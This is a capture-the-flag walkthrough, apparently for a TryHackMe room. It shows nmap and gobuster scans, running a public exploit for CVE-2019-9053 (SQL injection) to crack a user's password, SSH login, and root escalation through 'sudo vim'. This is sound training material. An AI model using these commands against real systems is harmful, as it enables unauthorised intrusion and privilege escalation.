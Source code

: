 # TryHackMe CTF Walkthrough

## 1. Services Running Under Port 1000
**Question:** How many services are running under port 1000?  
**Answer:** 2  
**Command:** 
```bash
nmap -sV [Target_Machine_Ip] -T5
```

**Nmap Scan Results:**
```
Starting Nmap 7.94SVN (https://nmap.org) at 2024-10-03 13:06 EEST 
Nmap scan report for 10.10.66.220
Host is up (0.086s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 29.27 seconds
```

## 2. Higher Port Service
**Question:** What is running on the higher port?  
**Answer:** SSH  

## 3. CVE Used
**Question:** What's the CVE you're using against the application?  
**Answer:** CVE-2019-9053  

## 4. Directory Enumeration
**Command:**
```bash
gobuster dir -u http://[Target_Machine_Ip] -w /usr/share/wordlists/dirb/big.txt
```
**Gobuster Scan Results:**
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.66.220
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 296]
/.htpasswd            (Status: 403) [Size: 296]
/robots.txt           (Status: 200) [Size: 929]
/server-status        (Status: 403) [Size: 300]
/simple               (Status: 301) [Size: 313] [--> http://10.10.66.220/simple/]                                                         

Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
```



## 5. Application Vulnerability
**Question:** To what kind of vulnerability is the application vulnerable?  
**Answer:** SQLi  


## 6. Exploiting the Vulnerability
**Question:** What can you leverage to exploit the vulnerability?  
**Answer:**   
**Command:**
```bash
python 46635.py -u http://[Target_Machine_Ip]/simple --crack -w /usr/share/wordlists/rockyou.txt
```

## 7. Exploit Output
**Question:** What information do you receive after exploiting the vulnerability?  
**Output:**
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

## 8. Login Information
**Question:** Where can you log in with the details obtained?  
**Answer:** SSH  

**Question:** What password do you enter when prompted?  
**Answer:** secret  

## 9. User Flag
**Question:** What’s the user flag?  
**Answer:** G___ ___, ____ _p!  
**Method:** After logging in, the user can easily find the `user.txt` file in the home directory.

## 10. Other User in Home Directory
**Question:** Is there any other user in the home directory? What’s its name?  
**Answer:** sunbath  
**Method:** Navigate to the previous directory using `cd ..` and list the contents with `ls` to find another user.

## 11. Spawning a Privileged Shell
**Question:** What can you leverage to spawn a privileged shell?  
**Answer:** vim  
**Method:** After running the command:
```bash
sudo -l
```

## 12. Command to Spawn Privileged Shell
**Question:** What command do you use to spawn a privileged shell?  
**Command:**
```bash
sudo vim -c ':!/bin/sh'
```

## 13. Finding the Root Flag
**Question:** How do you find the root flag?  
**Method:** Navigate to the root folder to find the `root.txt` file.  


**Flag:** W___ ____. ___ ____ _t!
